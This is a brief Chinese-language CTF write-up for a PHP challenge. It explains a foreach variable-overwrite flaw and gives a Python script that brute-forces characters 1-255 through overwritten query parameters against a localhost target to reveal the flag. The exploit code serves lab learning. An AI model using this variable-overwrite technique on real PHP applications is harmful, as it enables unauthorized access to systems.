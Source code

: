 ﻿# I see

## **[原理]**
在CTF中碰到foreach一般都是变量覆盖，前面条件都比较好过，自己本地开一个环境慢慢调试，运用php弱类型就能出来。
到了最后那一块正则匹配那个位置，是这题的难点。其实解题思路还是在变量覆盖那一块，先声明一个config变量，后面config.php进行赋值时候，并没有key，所以只会赋值后面value的第一个值，只要将1-255的字符跑一遍就可以出来。

## **[步骤]**
PY吧
```
import requests

s= requests.Session()
for i in range(1,255):
	a = chr(i)
	#print(a)
	url = "http://localhost:32769/index.php?action=login&file=config.php&tmp=aaa&_FILES=1&config=1&user[password]="+ a +"&user[user]=" + a
	#print(url)
	s.get(url)
	response = s.get((url.replace('login','upload'))).text
	if 'flag' in response:
		print(response)

```

![1](1.png)

## **[工具]**
python